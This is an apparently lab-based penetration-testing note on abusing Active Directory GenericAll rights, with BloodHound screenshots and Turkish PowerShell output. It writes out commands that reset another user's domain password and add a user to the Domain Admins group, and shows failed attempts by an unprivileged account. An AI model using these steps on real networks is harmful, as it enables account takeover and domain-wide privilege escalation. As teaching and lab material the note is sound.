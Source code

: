 # Abusing ACL

## GenericALL-User

We will check bloodhound and user has GenericAll rights for another user

![image](https://user-images.githubusercontent.com/13157446/129450372-671b8874-0d30-48fd-8163-8c003cc7fdb2.png)

dontmindme user can change iwouldmind users password without knowing prior password

![image](https://user-images.githubusercontent.com/13157446/129450621-c28f34d9-8f4a-4bc8-8c18-efb44e977cb9.png)

Fail with another user

```text
PS C:\Users\testuser\Desktop\sharphound> whoami
valhalla\testuser
PS C:\Users\testuser\Desktop\sharphound> net user iwouldmind NewPass123! /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

5 sistem hatası oldu.

Erişim engellendi.

PS C:\Users\testuser\Desktop\sharphound>
```

## GenericALL-Group

Groups for dontmindme user

```text
PS C:\Users\testuser\Desktop\sharphound> net user dontmindme /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

Kullanıcı adı                         dontmindme
Tam ad                                dontmindme
Açıklama
Kullanıcı açıklaması
Ülke kodu                             000 (Sistem Varsayılan değer)
Hesap etkin                           Evet
Hesap zaman aşımı                     Asla

Parolanın son ayarlanmadı             14.08.2021 17:59:27
Parola süre sonu                      Asla
Değişebilir parola                    15.08.2021 17:59:27
Parola gerekli                        Evet
Kullanıcı parolayı değiştirebilir     Evet

İzin verilen iş istasyonları          Tümü
Oturum açma kodu
Kullanıcı profili
Ana dizin
Son oturum açma                       14.08.2021 18:03:51

İzin verilen oturum açma saatleri     Tümü

Yerel Grup Üyeliği
Genel Grup üyeliği                    *Domain Users
Komut başarıyla tamamlandı.
```

Groups for iwouldmind user

```text
PS C:\Users\testuser\Desktop\sharphound> net user iwouldmind /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

Kullanıcı adı                         iwouldmind
Tam ad                                iwouldmind
Açıklama
Kullanıcı açıklaması
Ülke kodu                             000 (Sistem Varsayılan değer)
Hesap etkin                           Evet
Hesap zaman aşımı                     Asla

Parolanın son ayarlanmadı             14.08.2021 18:04:09
Parola süre sonu                      Asla
Değişebilir parola                    15.08.2021 18:04:09
Parola gerekli                        Evet
Kullanıcı parolayı değiştirebilir     Evet

İzin verilen iş istasyonları          Tümü
Oturum açma kodu
Kullanıcı profili
Ana dizin
Son oturum açma                       Asla

İzin verilen oturum açma saatleri     Tümü

Yerel Grup Üyeliği
Genel Grup üyeliği                    *Domain Users
Komut başarıyla tamamlandı.
```

We will check bloodhound and user has GenericAll rights for group

![image](https://user-images.githubusercontent.com/13157446/129450825-b5431b47-a3ce-4b2d-99c4-148090b4b631.png)

dontmindme user can add any user to this group

```text
PS C:\Users\testuser\Desktop\sharphound> net group "Domain Admins" /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

Grup adı     Domain Admins
Açıklama     Designated administrators of the domain

Üyeler

-------------------------------------------------------------------------------
Administrator            THOR$
Komut başarıyla tamamlandı.

PS C:\Users\testuser\Desktop\sharphound>
```

Try to add with different user

```text
PS C:\Users\testuser\Desktop\sharphound> net group "Domain Admins" iwouldmind /add /domain
İstek, valhalla.local etki alanının denetleyicisinde işlenecek.

5 sistem hatası oldu.

Erişim engellendi.
```

try to add with idontmind user

![image](https://user-images.githubusercontent.com/13157446/129451269-4c579420-0e72-47be-b612-1081a906bd9c.png)

